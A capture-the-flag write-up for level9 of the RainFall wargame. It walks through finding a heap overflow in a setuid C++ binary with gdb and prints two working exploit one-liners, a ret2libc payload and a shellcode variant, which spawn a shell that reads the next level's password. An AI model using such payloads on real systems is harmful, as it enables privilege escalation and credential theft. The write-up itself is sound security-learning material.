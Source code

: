 level9
======

*	We spawn with a [level9](src/level9) executable
	```console
	level9@RainFall:~$ ls -l 
	total 8
	-rwsr-s---+ 1 bonus0 users 6720 Mar  6  2016 level9
	level9@RainFall:~$ ./level9 
	level9@RainFall:~$ 
	```
*	Let's take a look at the [code](src/level9.cpp) I wrote since the ghidra version was horrible
	-	First thing I noticed was that it is in `C++`
	-	`main()`:
		-	check that there are more than 2 argc
		-	initialize two instance of the object of class `N` on the heap with `new`
		-	use `setAnnotation()` method on thy object with `argv[1]` as parameter
	-	the `N` class
		-	two variables : `value` and `annotation[100]`
		-	canonical form and `N::setAnnotation()` method which `memcpy()` the parameter to the array `annotation[100]`
*	We clearly have nothing concret like `/bin/sh` or `cat .pass`. However we should be able to overflow into a [Ret2libc](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc) kind of exploit or add our own shellcode to try and execute a `/bin/sh`.
*	We need :
	-	offset
	-	address of the start of the second buffer to store our exploit
	-	address of `system()` or `shellcode` depending on the exploit
*	The offset is easely found when looking at the code in gdb
	```gdb
	0x08048610 <+28>:    movl   $0x6c,(%esp)
	0x08048617 <+35>:    call   0x8048530 <_Znwj@plt>
	0x0804861c <+40>:    mov    %eax,%ebx
	[...]
	0x08048632 <+62>:    movl   $0x6c,(%esp)
	0x08048639 <+69>:    call   0x8048530 <_Znwj@plt>
	0x0804863e <+74>:    mov    %eax,%ebx
	```
	Those are the line corresponding to the initialization of our objects. Both of them need a `0x6c(HEX) -> 108(DEC)` sized buffer.
*	Now let's retrieve the address of the buffer
	```
	Reading symbols from /home/user/level9/level9...(no debugging symbols found)...done.
	(gdb) disas main
		Dump of assembler code for function main:
		[...]
		0x08048677 <+131>:   call   0x804870e <_ZN1N13setAnnotationEPc>
		0x0804867c <+136>:   mov    0x10(%esp),%eax
		[...]
		End of assembler dump.
	(gdb) b *main+136
		Breakpoint 1 at 0x804867c
	(gdb) run 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
		Starting program: /home/user/level9/level9 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'

		Breakpoint 1, 0x0804867c in main ()
		(gdb) i r $eax
		eax            0x804a00c        134520844
	```
	Here we needed to place a breakpoint after the allocation and retrieve the address stored in `$eax` which correspond to the start of the buffer -> `\x0c\xa0\x04\x08`
*	First let's try the `Ret2libc` option :
	*	Retrieve `system()`
		```gdb
		(gdb) p system
		$1 = {<text variable, no debug info>} 0xb7d86060 <system>
		```
		it gives us `\x60\x60\xd8\xb7`, we will also need to add `;/bin/sh`
	*	We have everything we need
		```console
		level9@RainFall:~$ ./level9 $(python -c 'print("\x60\x60\xd8\xb7" + "A" * 104 + "\x0c\xa0\x04\x08" + ";/bin/sh")')
		[...]
		$ cat /home/user/bonus0/.pass
		f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
		```
*	Good now let's try the other one :
	*	Let's calculate the padding
		*	my older shellcode didn't work probably because of how the stack was dealing with the program so I used another one [here](src/shellcode.s) -> 27
		*	address of buffer = 4 bytes
		*	size of buffer = 108 bytes
		*	108 - 23 - 4 = `77 bytes` of padding
	*	And we get this :
		```console
		level9@RainFall:~$ ./level9 $(python -c "print('\x10\xa0\x04\x08' + '\x90'*77 + shellcode + '\x0c\xa0\x04\x08')")
		$ whoami
		bonus0
		$ cat /home/user/bonus0/.pass
		f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
		```
